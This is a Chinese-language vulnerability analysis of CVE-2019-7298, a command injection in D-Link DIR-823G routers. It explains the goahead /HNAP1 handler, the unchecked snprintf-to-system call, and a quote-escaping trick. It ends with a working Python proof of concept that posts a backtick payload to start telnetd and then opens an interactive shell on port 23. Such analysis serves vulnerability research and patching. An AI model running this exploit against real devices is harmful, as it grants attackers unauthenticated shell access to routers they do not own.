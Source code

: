 # （CVE-2019-7298）D-Link DIR-823G 命令注入漏洞

> 原文：[http://book.iwonder.run/iot/D-Link/CVE-2019-7298.html](http://book.iwonder.run/iot/D-Link/CVE-2019-7298.html)

## 一、漏洞简介

D-Link DIR 823G 1.02B03 及之前的版本中存在命令注入漏洞，攻击者可通过发送带有 shell 元字符的特制/HNAP1 请求利用该漏洞执行任意的操作系统命令。在 HNAP API 函数处理请求之前，system 函数执行了不可信的命令，触发该漏洞。

## 二、漏洞影响

D-Link DIR 823G 1.02B03 及之前的版本

## 三、复现过程

### 漏洞分析

在每次内核启动之后将启动 init 进程，init 进程的启动时根据/etc/inittab 这个文件赖在不同运行级别启动相应的进程或执行相应的操作。其中 sysinit 代表系统的初始化，只有系统开机或重新启动的时候，后面对应的 process 才会执行一次。

```
::sysinit:/etc/init.d/rcS 
```

在 rcS 中，先执行一些列 mkdir 和设置，执行了`goahead`。

> `goahead` 是一个开源的 `web` 服务器，用户的定制性非常强。可以通过一些 `goahead` 的 `api`定义 `url`处理函数和可供 `asp` 文件中调用的函数，具体可以看看官方的代码示例和网上的一些教程。

goahead 的 websUrlHandlerDefine 函数允许用户自定义不同 url 的处理函数：

```
websUrlHandlerDefine(T("/HNAP1"), NULL, 0, websHNAPHandler, 0);
websUrlHandlerDefine(T("/goform"), NULL, 0, websFormHandler, 0);
websUrlHandlerDefine(T("/cgi-bin"), NULL, 0, websCgiHandler, 0); 
```

以上代表/HNAP1 的请求交给 websHNAPHandler 函数处理，/gofrom 的请求交给 websFormHandler 函数处理，/cgi-bin 的请求交 websCgiHandler 函数处理。这些处理函数有统一的参数：

```
int (*fn)(webs_t wp, char_t *url, char_t *path, char_t *query)
wp    Web server connection handle.  
url   Request URL.  
path  Request path portion of the URL.  
query Query string portion of the URL. 
```

先了解/HNAP1 请求的处理函数，在 goahead 中查找“HNAP1”字符串并通过 xref 定位处理函数 sub_42383c

![image](img/f13b57bceac1a4cbfea54f795083615f.png)

`sub_4238c`主要通过遍历全局的函数表来处理 HNAP1 接受的不同请求。function_list 中每个元素的前四个字节为函数名，后四个字节为对应的函数地址。当找到在 function_list 中找到函数名与请求相同的字符串时，向/var/hnaplog 中记录`param_7`的值，这个值但从汇编不太能看出，[hackedbylh](https://xz.aliyun.com/t/2834#toc-4)指出是 post 的报文，在运行过程中查看/var/hnaplog 能猜出来。之后调用对应的函数地址处理相关请求。

这里无论处理请求的函数名是什么，在找到之后会通过 snprintf 输入字符且未做检查，之后直接 system 执行，存在命令注入漏洞。如果 post 请求是'`/bin/telnetd`'，就会先开启 telnet 服务器，再讲字符写入 hnaplog。

![image](img/9b59570576965cabd1578808f84c76b2.png)

![image](img/1d24b87d1f27d774aa7d4f3bfa4dc741.png)

另外需要注意，post 的数据要加上引号，因为 echo '%s' > /var/hnaplog 中本身带了单引号，如果只是`/bin/telnet`，相当于

```
echo '`/bin/telnet`' > /var/hnaplog 
```

由于命令由引号括起，会当做字符串处理，不会执行命令

而

```
echo ''`/bin/telnet`'' > /var/hnaplog 
```

post 中的两个引号分别与自带的两个引号组合，反引号没有嵌套在单引号中，会当做命令执行。

### poc

```
import requests
from pwn import *

IP='192.168.0.1'
command ="'`/bin/telnetd`'"
length = len(command)

headers = requests.utils.default_headers()
headers["Content-Length"]=str(length)
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/Login"'#此处的 Login 可以替换为任何在 function_list 中的函数名
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"

payload = command
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

p=remote(IP,23)
p.interactive() 
```

